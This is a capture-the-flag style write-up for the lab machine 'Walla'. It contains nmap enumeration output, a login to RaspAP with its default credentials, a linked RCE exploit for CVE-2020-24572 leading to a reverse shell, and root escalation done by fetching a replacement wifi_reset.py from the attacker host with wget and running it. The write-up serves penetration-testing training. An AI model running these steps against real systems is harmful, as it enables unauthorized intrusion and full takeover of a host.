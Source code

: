 # Network Enumeration

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/Walla]
└─$ nmap -r -v --min-rate=1500 -p- -oN 001-nmap-tcp-full 192.168.171.97
Not shown: 60232 closed tcp ports (conn-refused), 5296 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
422/tcp   open  ariel3
8091/tcp  open  jamlink
42042/tcp open  unknown

┌──(aaron㉿aaron)-[~/Desktop/pg/Walla]
└─$ sudo nmap -p22,23,25,53,422,8091,42042 -sT -A 192.168.171.97 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-16 10:12 EDT
Nmap scan report for 192.168.171.97
Host is up (0.34s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02:71:5d:c8:b9:43:ba:6a:c8:ed:15:c5:6c:b2:f5:f9 (RSA)
|   256 f3:e5:10:d4:16:a9:9e:03:47:38:ba:ac:18:24:53:28 (ECDSA)
|_  256 02:4f:99:ec:85:6d:79:43:88:b2:b5:7c:f0:91:fe:74 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.8 (87%), Linux 5.0 (87%), Linux 5.0 - 5.4 (87%), Linux 2.6.32 (87%), Linux 3.5 (87%), Linux 3.7 (87%), Linux 4.2 (87%), Linux 4.4 (87%), Synology DiskStation Manager 5.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT       ADDRESS
1   342.73 ms 192.168.45.1
2   342.56 ms 192.168.45.254
3   343.79 ms 192.168.251.1
4   343.90 ms 192.168.171.97

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.95 seconds
```

# Port Enumeration

## 25

For Port 25 we don't have useful creds. So can't do any next step.

<img src="../Images/image-20230816221601136.png" alt="image-20230816221601136" style="zoom:80%;" />



## 8091

For port 8091, the http server is `lighttpd`, but `lighttpd` don't have default creds. Across `nmap` we know the Basic realm is `RaspAP`, so check the `RaspAP` default creds.

<img src="../Images/image-20230816221806832.png" alt="image-20230816221806832" style="zoom:80%;" />

Use this creds we can login to port 8091.

<img src="../Images/image-20230816221838571.png" alt="image-20230816221838571" style="zoom:80%;" />

Check the version of `RaspAP`, that's v2.5, search on google for `RaspAP 2.5 exploit`

<img src="../Images/image-20230816222718874.png" alt="image-20230816222718874" style="zoom:80%;" />

The first one is a RCE exploit. Use this [exploit](https://github.com/gerbsec/CVE-2020-24572-POC/blob/main/exploit.py)

<img src="../Images/image-20230816222755021.png" alt="image-20230816222755021" style="zoom:80%;" />

Then get reverse shell from `RaspAP`.

<img src="../Images/image-20230816222852389.png" alt="image-20230816222852389" style="zoom:80%;" />

# PE

## Basic Information

<img src="../Images/image-20230816223329723.png" alt="image-20230816223329723" style="zoom:80%;" />

## Active Ports

<img src="../Images/image-20230816223417163.png" alt="image-20230816223417163" style="zoom:80%;" />



## sudo -l

<img src="../Images/image-20230816223608245.png" alt="image-20230816223608245" style="zoom:80%;" />

## Users

<img src="../Images/image-20230816223638449.png" alt="image-20230816223638449" style="zoom:80%;" />



## Use SUID to PE

```bash
www-data@walla:/home/walter$ mv wifi_reset.py wifi_reset.bak
# That's means we can mv/cp the file
www-data@walla:/home/walter$ ls
local.txt  wifi_reset.bak
www-data@walla:/home/walter$ ls
local.txt  wifi_reset.bak
www-data@walla:/home/walter$ wget 192.168.45.224/wifi_reset.py
wget 192.168.45.224/wifi_reset.py
--2023-08-16 10:42:11--  http://192.168.45.224/wifi_reset.py
Connecting to 192.168.45.224:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1047 (1.0K) [text/x-python]
Saving to: ‘wifi_reset.py’
wifi_reset.py       100%[===================>]   1.02K  --.-KB/s    in 0s      
2023-08-16 10:42:11 (2.06 MB/s) - ‘wifi_reset.py’ saved [1047/1047]

www-data@walla:/home/walter$ /usr/bin/python /home/walter/wifi_reset.py

```

Use python to reverse shell.

<img src="../Images/image-20230816224550755.png" alt="image-20230816224550755" style="zoom:80%;" />

Then get root reverse shell.

<img src="../Images/image-20230816224707367.png" alt="image-20230816224707367" style="zoom:80%;" />